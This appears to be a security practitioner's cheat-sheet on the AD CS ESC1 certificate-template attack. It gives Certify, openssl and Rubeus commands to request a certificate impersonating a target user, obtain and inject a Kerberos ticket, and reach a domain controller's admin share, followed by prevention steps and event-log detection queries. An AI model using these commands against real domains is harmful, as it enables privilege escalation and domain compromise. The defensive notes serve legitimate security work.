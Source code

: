 - Path
```
# Find PKI vulns
certify.exe find /vulnerable
- search: ENROLLEE_SUPPLIES_SUBJECT

# Request Cert
certify.exe request /ca:NAME CA /template:template /altname:TARGETUSER

# Convert PEM to PFX (for rubeus)
sed -i 's/\s\s\+/\n/g' cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request TGT for target
rubeus.exe asktgt /domain: /user: /certificate:file.pfx /dc: dc1.domain.local /ptt

# check
dir \\dc1\c$

- No GUI
runas /user:domain\user powershell
```

- Prevention
  - disable CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT
  - manager approval

- Detection
  - ID: 4886 (request) | 4887 (issue cert) | 4768 (logon with cert)
  - certificate: details
```
certutil -view
New-PSSession PKI + Enter-PSSession PKI
Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886|4887'}

# save in array
$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
$events[0] | Format-List -Property *

``` 
- 

- Honeypot:

